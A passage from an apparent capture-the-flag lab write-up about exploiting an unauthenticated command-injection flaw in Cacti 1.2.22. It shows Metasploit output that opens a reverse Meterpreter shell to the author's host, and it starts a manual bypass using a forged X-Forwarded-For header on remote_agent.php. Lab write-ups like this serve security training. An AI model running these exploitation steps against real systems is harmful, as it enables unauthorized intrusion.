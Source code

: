 

    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Running automatic check ("set AutoCheck false" to disable)
    [+] The target appears to be vulnerable. The target is Cacti version 1.2.22
    [*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
    [*] Enumerating local_data_id values for host_id 1
    [+] Found exploitable local_data_id 6 for host_id 1
    [*] Command Stager progress - 100.00% done (1118/1118 bytes)
    [*] Exploit completed, but no session was created.



The weird thing is, when I send this through Burp to see what's
happening, it works:



    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > set proxies http:127.0.0.1:8080
    proxies => http:127.0.0.1:8080
    msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) > run

    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Running automatic check ("set AutoCheck false" to disable)
    [+] The target appears to be vulnerable. The target is Cacti version 1.2.22
    [*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
    [*] Enumerating local_data_id values for host_id 1
    [+] Found exploitable local_data_id 6 for host_id 1
    [*] Command Stager progress - 100.00% done (1118/1118 bytes)
    [*] Sending stage (1017704 bytes) to 10.10.11.211
    [*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.211:59692) at 2023-04-29 17:25:14 -0400

    meterpreter >



It reliably fails without the proxy, and works with it. It might make a
nice Beyond Root someday, but I can't figure out what is happening
there.

#### Manual

I can exploit this manually. If I just visit
`http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=1&host_id=1&poller_id=1`
in Firefox, it returns a non-authorized error:

![](/img/image-20230429173924683.png)

If I submit that again, but intercept the request in Burp, and add the
`X-Forwarded-For` header like this:
